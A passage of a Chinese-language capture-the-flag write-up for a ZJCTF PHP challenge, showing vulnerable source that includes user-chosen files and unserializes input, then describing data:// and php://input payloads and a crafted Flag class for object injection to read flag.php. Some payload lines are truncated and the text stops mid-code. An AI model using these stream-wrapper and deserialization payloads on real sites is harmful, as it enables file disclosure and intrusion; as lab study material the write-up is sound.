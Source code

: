 > 打开网页

```
<?php   
$text = $_GET["text"]; 
$file = $_GET["file"]; 
$password = $_GET["password"]; 
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){ 
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>"; 
    if(preg_match("/flag/",$file)){ 
        echo "Not now!"; 
        exit();  
    }else{ 
        include($file);  
        $password = unserialize($password); 
        echo $password; 
    } 
} 
else{ 
    highlight_file(__FILE__); 
} 
?> 
```

分析

```
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")) 
```

```
file_get_contents() 函数把整个文件读入一个字符串中。 
```

> 所以这个地方可以使用
> php://input伪协议
> 或者
> data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
> 故给出

```
 payload:text=php:

payload:text=data: 
```

base64解码后读取出useless.php源码

```
<?php  
class Flag{  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

<?php  
class Flag{  
    public $file = 'flag.php';  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
```